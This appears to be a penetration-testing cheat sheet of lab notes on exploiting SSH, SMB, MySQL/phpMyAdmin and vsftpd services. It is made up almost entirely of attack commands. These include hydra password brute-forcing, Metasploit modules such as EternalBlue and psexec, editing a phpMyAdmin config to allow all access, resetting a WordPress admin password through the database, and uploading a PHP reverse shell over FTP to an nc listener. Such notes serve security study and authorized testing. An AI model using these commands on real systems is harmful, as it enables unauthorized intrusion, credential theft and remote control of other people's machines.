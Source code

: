 **OpenSSH**:

- `hydra -l administrator -P <unix_passwords.txt> ssh://<ip>`
- `ssh administrator@<ip>`
- `msf6 > use ssh_login`
- `msf6 > sessions -u 1`
- `C:\> whoami /priv` - equals to `getprivs` in a meterpreter session

**SMB**:

- `hydra -l administrator -P <unix_passwords.txt> smb://<ip>`
- `smbclient -L -U administrator <ip>` - we must provide the password as well (for listing shares)
- `smbmap -H <ip> -u administrator -p <password>` - listing shares
- `enum4linux -a -u administrator -p <password> <ip>` - listing all (`-a`)
- `msf6 > use smb_enumusers`
- `python3 [psexec.py](http://psexec.py) administrator@<ip>` or `msf6 > use smb/psexec` - gives cmd.exe
- `msf6 > use ms17_010_eternalblue`

**MySQL**:

- `msf6 > use mysql_login`
- We have `C:\wamp\www` directory on Windows and it serves like `/var/www/` - serves for the website (includes index.html)
- `meterpreter > download C:\wamp\alias\phpmyadmin.conf` - config file for /phpmyadmin directory
- `nano phpmyadmin.conf`
    - we adjust it like - `Allow from all`
    - In this way everyone can access it if the access was denied before.
- `meterpreter > upload phpmyadmin.conf`
- `meterpreter > shell`
    - `C:> net stop wampapache`
    - `C:> net start wampapache`
    - We restart the web server for made changes.
- In the *http://<ip>/phpmyadmin* directory (in the website) we can change admin panel password → *wp_users* → changing *user_pass* for the admin user → going /wordpress/wp-admin with new credentials

### Linux Exploitation

If we have suspicious services like `exec?` or `login?` (question mark in the end) then it would be good to connect with using `nc` . It is possible that we can connect to a bind-shell listener or we can get the actual service info and version.

**VsFTPD**:

vsftpd 2.3.4 is vulnerable to a malicious backdoor that is added to the download archive of vsftpd.

- `msf6> use vsftpd_234_backdoor` or `searchsploit vsftpd 2.34`
- ***But it will not work because the admin already patched the version of the service.
- ******It is important that a service can be vulnerable, but it is possible that the service is already **patched** as in this case.

- `msf6 > use smtp_enum` - for SMTP user enumeration which is also valid for FTP
- `hydra -l service -P <unix_passwords.txt> ftp://<ip> -t 64`
- It is possible that other service acounts don’t have any passwords which will not give any results in `hydra`, so we must use proper names as usernames.
- `nano /usr/share/webshells/php/php-reverse-shell.php` - changing the port number and the ip address
- `ftp <ip>`
- `ftp> cd /var/www/dav`
- `ftp> put php-reverse-shell.php`
- `nc -nlvp 1234`
- Clicking php-reverse-shell.php in *http://<ip>/dav*
